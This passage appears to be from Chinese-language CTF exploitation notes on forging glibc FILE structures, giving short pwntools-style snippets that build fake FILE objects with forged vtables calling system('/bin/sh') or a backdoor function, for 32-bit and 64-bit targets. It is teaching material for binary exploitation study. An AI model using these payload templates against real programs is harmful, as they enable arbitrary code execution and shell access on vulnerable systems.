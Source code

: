 - 调用__fclose()函数的情况: flags & 0x2000不为0

  ```python
  #_flags & 0x2000不为0最终会调用fp->vtabl->__fclose(fp)
  fake_file = "/bin/sh\x00"
  fake_file = fake_file.ljust(0x48,'\x00')
  fake_file += p32(fake_lock_addr) # 指向一处值为0的地址
  fake_file = fake_file.ljust(0x94, "\x00")
  fake_file += p32(fake_vtable)#fake vtable address = buf_addr + 0x98 - 0x44
  fake_file += p32(system)
  ```



`64bits`的情况：

- 程序中存在后门函数

  ```python
  fake_file ='\0'*0x10 + p64(get_shell)+'\0'*0x70+ p64(buf_addr)
  fake_file = fake_file.ljust(0xd8,'\0')+p64(buf_addr)
  ```

- 程序中不存在后门函数

```python
fake_file = "/bin/sh\x00" + '\x00' * 0x8
fake_file += p64(system) + '\x00' * 0x70
# the system can also be placed in other memory
fake_file += p64(fake_lock_addr)#指向一处值为0的地址
fake_file = fake_file.ljust(0xd8, '\x00')
fake_file += p64(buf_addr + 0x10 - 0x88) # fake_vtable_addr
```


#### 10.  scanf 之 往事

![](.\media\graph_10.png)
